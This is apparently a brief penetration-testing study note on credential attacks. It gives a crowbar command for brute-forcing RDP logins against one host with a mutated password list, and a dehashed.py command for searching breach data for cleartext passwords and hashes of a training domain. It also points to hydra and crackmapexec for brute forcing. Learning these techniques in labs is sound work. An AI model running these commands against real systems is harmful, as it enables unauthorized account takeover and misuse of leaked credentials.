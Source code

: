 ## RDP - Crowbar
much faster than hydra and crackmapexec for rdp
```
crowbar -b rdp -s xx.xxx.xxx.xxx/32 -u johanna -C <full-mutated-password-list>
```

## Breached Data 
hunting cleartext credentials and password hashes in breach data
```
sudo python3 dehashed.py -q inlanefreight.local -p
```

can use [[crackmapexec]] and [[hydra]] to brute force out the credentials